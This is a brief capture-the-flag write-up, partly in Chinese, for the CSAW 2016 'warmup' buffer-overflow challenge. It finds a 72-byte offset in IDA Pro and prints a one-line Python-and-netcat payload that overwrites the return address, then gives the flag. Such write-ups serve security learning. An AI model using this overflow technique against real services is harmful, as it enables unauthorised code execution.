

#warmup

基本的buffer overflow 題，

開IDA pro看


Find length of the overflow.

-> 72

於是在72個"a"後面塞IDA pro看到的位址：0x400611，

also 0x40060d.



It is 64-bit so that we need to add "\x00" 4 times behind payload. 

payload: ```python -c 'print "a"*72 + "\x11\x06\x40\x00\x00\x00\x00\x00"' | nc pwn.chal.csaw.io 8000```

Flag is ```FLAG{LET_US_BEGIN_CSAW_2016}```
